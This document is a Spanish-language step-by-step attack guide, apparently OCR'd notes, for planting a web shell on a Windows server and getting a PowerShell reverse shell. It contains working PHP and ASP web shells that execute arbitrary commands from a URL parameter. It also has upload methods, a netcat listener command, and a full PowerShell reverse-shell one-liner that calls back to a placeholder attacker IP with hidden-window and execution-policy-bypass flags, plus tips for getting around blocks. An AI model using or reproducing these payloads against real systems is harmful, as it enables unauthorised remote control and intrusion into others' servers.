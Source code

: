 **Procedimiento para subir webshell en Windows y obtener reverse shell con PowerShell**

---

### 1. Crear webshell básico en Windows (ejemplo PHP o ASP)

Si PHP está disponible:

```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Si ASP clásico:

```asp
<%
If Request.QueryString("cmd") <> "" Then
  Set objShell = CreateObject("WScript.Shell")
  Set objExec = objShell.Exec(Request.QueryString("cmd"))
  Response.Write("<pre>" & objExec.StdOut.ReadAll() & "</pre>")
End If
%>
```

---

### 2. Subir webshell

* Método: Upload vía aplicación vulnerable, SMB, FTP, RDP, herramientas (Meterpreter, Powershell Invoke-WebRequest).
* Ubicar en carpeta accesible vía HTTP (IIS, Apache).

---

### 3. Preparar listener en atacante

```bash
nc -lvnp <PORT>
```

---

### 4. Ejecutar reverse shell PowerShell desde webshell

Ejecutar desde webshell (por ejemplo, via navegador):

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('<Atacker-IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

* Sustituir `<Atacker-IP>` y `<PORT>` por IP y puerto propio.

---

### 5. Confirmar shell establecida

* En atacante: recibir prompt PowerShell con permisos del proceso web.
* Comandos básicos: `whoami`, `hostname`, `ipconfig`.

---

### 6. Consideraciones

* PowerShell debe estar disponible y permitido en la máquina Windows.
* Firewall puede bloquear conexiones salientes.
* Si `ExecutionPolicy` bloquea, usar flag `-Exec Bypass`.
* Si PowerShell no disponible, usar otras técnicas (cmd, msfvenom payloads).

---
